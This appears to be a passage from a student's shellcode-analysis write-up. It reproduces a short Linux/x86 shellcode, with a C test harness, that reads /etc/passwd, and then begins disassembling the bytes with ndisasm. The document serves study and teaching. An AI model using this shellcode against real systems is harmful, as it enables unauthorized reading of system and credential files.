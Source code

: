 ## Shellcode 2 `Tiny Read File Shellcode - C Language - Linux/x86`

This shellcode was written by Geyslan G. Bem, and is located [here](http://shell-storm.org/shellcode/files/shellcode-842.php). This shellcode will read an arbitrary file, we will be using `/etc/passwd`.

**Size: 51 bytes** 

```c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \

              "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73"
              "\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f"
              "\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03"
              "\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92"
              "\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd"
              "\x80";


main ()
{

    // When contains null bytes, printf will show a wrong shellcode length.

    printf("Shellcode Length:  %d\n", strlen(shellcode));

    // Pollutes all registers ensuring that the shellcode runs in any circumstance.

    __asm__ ("movl $0xffffffff, %eax\n\t"
            "movl %eax, %ebx\n\t"
            "movl %eax, %ecx\n\t"
            "movl %eax, %edx\n\t"
            "movl %eax, %esi\n\t"
            "movl %eax, %edi\n\t"
            "movl %eax, %ebp\n\t"

            // Calling the shellcode
            "call shellcode");

}
```

Let's use `ndisasm` on this shellcode like we did last assignment to get some assembly out of it. 

```terminal_session
root@kali:~# echo -ne "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -
```

